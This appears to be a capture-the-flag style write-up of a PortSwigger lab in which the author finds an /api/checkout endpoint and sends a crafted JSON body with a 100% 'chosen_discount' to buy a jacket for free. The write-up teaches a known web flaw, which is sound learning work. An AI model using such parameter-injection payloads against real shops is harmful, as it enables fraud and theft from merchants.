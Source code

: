 **Version**: 1.0  
**Author**: [Trung Huynh](https://www.linkedin.com/in/trung-huynh-chi-pc01/)

![Burp Suite](https://img.shields.io/badge/Tool-Burp%20Suite-orange)  
![License](https://img.shields.io/badge/License-MIT-green)  
![Contributions](https://img.shields.io/badge/Contributions-Welcome-orange)

# **Exploiting a Mass Assignment Vulnerability** 🛡️

---

## **📜 Table of Contents**
1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

---

## **✨ Overview**  
🎉 **Welcome to another exciting write-up!**  
In this PortSwigger Labs lab, we'll explore how to exploit a **Mass Assignment Vulnerability** to gain unauthorized benefits. Buckle up as we dive into the step-by-step process!  

**Difficulty Level:** ★☆☆☆☆☆☆☆☆☆  

---

## **🛠️ Background**  
In this lab, you'll exploit a **mass assignment vulnerability** to buy a **Lightweight l33t Leather Jacket** for free. Log in using the following credentials:  
- **Username:** `wiener`  
- **Password:** `peter`  

Your mission: Identify and exploit the vulnerability to complete the lab.  

---

## **🔍 Enumeration**  
### **Step 1: Exploring the Home Page**  
Upon accessing the home page, you can browse and purchase products:  

![Local Image](img/lab3/h1.png "Local Image")

### **Step 2: Logging In**  
Log in with the provided credentials:  

![Local Image](img/lab3/h2.png "Local Image")

### **Step 3: Discovering the API**  
Navigate to a product’s detail page by clicking **"View Details"**:  

![Local Image](img/lab3/h3.png "Local Image")

Add the product to your cart:  

![Local Image](img/lab3/h4.png "Local Image")


Open your cart and inspect the page source (**Ctrl + U**):  

```html
<script type='text/javascript'>
    const getApiEndpoint = () => '/api/checkout';
</script>
```
![Local Image](img/lab3/h5.png "Local Image")

This reveals an API endpoint: `/api/checkout`. Further investigation in `/resources/js/api/checkout.js` shows two available methods, **GET** and **POST**, allowing interaction with the cart details and checkout process.

---

## **💥 Exploitation**  
### **Step 4: Understanding the Vulnerability**  
Mass Assignment allows binding unintended parameters to internal objects. By leveraging this, you can apply a **non-existent discount**.

Here's the crafted JSON payload for the **POST** request:  
```json
{
    "chosen_discount": {
        "percentage": 100
    },
    "chosen_products": [
        {
            "product_id": "1",
            "quantity": 1
        }
    ]
}
```

Send this payload to `/api/checkout` using the **POST** method:  

![Local Image](img/lab3/h6.png "Local Image")

![Local Image](img/lab3/h7.png "Local Image")
🎉 **Result:** You successfully purchased the product for free!

---

## **🏁 Conclusion**  
### **Key Takeaways:**  
1. **Mass Assignment Vulnerability:**  
   - Auto-binding can expose unintended parameters.  
2. **APIs and Hidden Parameters:**  
   - Always inspect API endpoints and their methods.  
3. **Critical Thinking:**  
   - Exploiting small hints like JavaScript variables can lead to significant vulnerabilities.

🎯 **Goal Achieved:** We successfully exploited the vulnerability and gained the desired item without any cost!  

---

### **💡 Stay curious, keep exploring, and happy hacking!** 💻✨


